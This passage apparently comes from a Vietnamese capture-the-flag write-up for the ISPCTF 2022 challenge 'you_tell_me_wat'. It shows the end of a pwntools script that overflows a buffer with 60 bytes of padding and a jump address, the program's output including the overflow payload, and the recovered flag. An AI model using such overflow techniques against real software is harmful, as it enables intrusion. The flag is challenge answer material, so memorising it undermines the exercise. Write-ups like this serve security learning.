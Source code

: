 ```

p.sendline(pl)

pl = 'A'*60+win # modify v3 = notfun to address point to read 3rd flag
p.sendline(pl)

p.interactive()
```

# 4. Kết quả
```
[+] Starting local process './you_tell_me_wat': pid 95742
[*] Switching to interactive mode
=================================
| Welcome to ISPCTF  2022       |
| Have fun with these challenge |
|           --Author-- Iluvinn  |
=================================
What your name?
Hi 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7\x13\x13AAAAAAAAAAA}\x88\x04\x95\x87\x04IluvMinn

Let's me check your token
Greate here your flag
ISPCTF{B0

Go deeper to get flag
Your may need some thing '%$!@#' to continue

==================================================
We meet again let's me check your stuff you carry with
Okay gud, go on
Okay gud, take your gift
Here your 2nd flag
unD_4nD_jU


==========================
How did you get here?
Nvm, just finish this if you can
Oh, and the last piece of flag is 'ISPCTF2022.flag'
I'll give you my lazy prog =='
Have fun~~
[ + ] Ok4y, t3ll sth m4k3 me f^n: 
ISPCTF{B0

unD_4nD_jU

Mp_42346E346E34}

[*] Got EOF while reading in interactive
$ 
```

flag: `ISPCTF{B0unD_4nD_jUMp_42346E346E34}`
